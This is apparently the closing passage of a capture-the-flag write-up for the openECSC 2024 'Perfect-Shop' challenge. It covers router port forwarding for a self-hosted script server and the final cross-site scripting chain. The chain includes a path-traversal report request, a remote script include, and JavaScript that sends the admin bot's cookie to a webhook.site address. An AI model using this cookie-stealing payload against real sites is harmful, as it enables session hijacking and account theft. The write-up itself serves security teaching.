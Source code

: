 But there's one step missing: the router is reachable from the outside world, but the server hosted on the device is only reachable within the local network. Somehow, we need to tell the router that when a request is received on a certain port, that request should be handled by the Python server.

[Port forwarding](https://en.wikipedia.org/wiki/Port_forwarding) allows us to do this. The procedure for enabling it varies greatly depending on the router manufacturer.

<img class="img-responsive" src="/openecsc2024/Perfect-Shop/img/PortForwarding.png" alt="Example of port forwarding">

As for the protocol, it's important to select TCP/UDP or similar if available; otherwise, it's better to create a port forwarding table for each protocol.

The WAN port is the port that will be reachable from the outside, while the LAN port is the port that will receive packets from the outside. Essentially, it's the one chosen when the HTTP server was set up in Python. To avoid errors, I would recommend using the same LAN and WAN port (internal and external) where possible.

The destination IP is the local IP of the device used, i.e., the one I obtained with `ifconfig`, or `ipconfig` in Windows.

This way, when the router receives a request on the selected WAN port, the packet will be forwarded to the local IP and port entered in the port forwarding table.

To test that everything has been done correctly, simply visit `[public IP of the router]:[WAN port]` from any device, preferably not connected to the same local network as the server hosting the exploit (e.g., a phone with mobile data).

### Final Payload
Let's make it happen.

To recap:

- The finalized payload to include the remote JavaScript code is `<script src="//[IP]:[PORT]/x.js"></script>`.
- The code present on `x.js` is `window.location = "https://webhook.site/[REDACTED]?c=" + document.cookie;`.
- All that's left is to send the bot a report like this:

<img class="img-responsive" src="/openecsc2024/Perfect-Shop/img/FinalBurp.png" alt="Final Payload in Burp">

`id=1/../../search%3flol%3d"/admin"%26q%3d<script%2bsrc%253d"http%253a//10.10.201.233%253a1337/x.js"></script>&message=/admin`, which decodes to
`id=1/../../search?lol="/admin"&q=<script src="http://10.10.201.233:1337/x.js"></script>&message=/admin`

To anyone who managed to read this far, thank you from the bottom of my heart ❤️

For any feedback, you can reach me out on Discord: `titto_caru`
